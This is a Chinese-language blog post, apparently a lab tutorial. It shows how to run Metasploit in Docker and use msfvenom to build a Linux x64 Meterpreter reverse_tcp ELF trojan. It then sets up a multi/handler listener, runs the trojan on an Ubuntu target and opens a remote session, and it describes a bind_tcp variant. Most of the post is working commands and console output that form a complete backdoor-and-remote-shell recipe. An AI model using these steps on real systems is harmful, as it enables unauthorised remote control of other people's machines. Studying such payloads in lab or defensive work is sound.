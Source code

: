 ```yaml
---
layout: post
title: 使用 msf 生成Ubuntu 64位木马（反向连接、正向连接）
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```



# docker 安装 msf

创建容器：
```
docker run -it -d --name msf -p 1234:1234 linuxkonsult/kali-metasploit
```

进入容器：
```
docker exec -it msf /bin/bash
msfconsole
```
# 0x01 环境

攻击机：Kali Linux 2020.1 172.16.252.129
靶机：Ubuntu 16.04 172.16.252.138

**查看当前系统的位数：**

```[root@localhost ~]# getconf LONG_BIT```


## 生成反向连接木马

使用kali自带的Msfvenom工具生成木马。
查看有哪些linux下的载荷：
```
msfvenom -l payloads | grep linux
```

针对Ubuntu 64位靶机，使用linux/x64/meterpreter/reverse_tcp载荷，并指定反弹连接的IP和端口，生成elf类型的木马：

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.252.129 LPORT=1234 -f elf > shell.elf

```


打印以下信息：
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes

```

在当前目录已经生成了shell.elf文件。

### 打开监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp 
set lhost 172.16.252.129
set lport 1234
run
```

### 运行木马

修改之前生成的shell.elf属性为可执行：
```
chmod a+x shell.elf
```
将其拷贝到靶机Ubuntu 16.04中运行：


```
./shell.elf
```

这时kali端打印出：
```
[*] Started reverse TCP handler on 172.16.252.129:1234 
[*] Sending stage (3021284 bytes) to 172.16.252.138
[*] Meterpreter session 2 opened (172.16.252.129:1234 -> 172.16.252.138:56384) at 2020-04-20 07:04:26 -0400
```

## 正向连接木马

类似上面的反向连接木马，可以使用bind_tcp载荷，开启正向连接木马。和反向连接的区别在于：
反向连接木马是**攻击机开放端口**，靶机连过来；
正向连接木马是**靶机开放端口**，攻击机连过去；

生成木马：


放到靶机上运行：

./bindtcp.elf

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 172.16.252.138
set lport 4444
run
```

成功建立连接：
![成功建立连接：](https://img-blog.csdnimg.cn/20200422103852243.png)


# 参考

[msfvenom生成payload命令+内网透到外网](https://www.cnblogs.com/youyouii/p/10013590.html)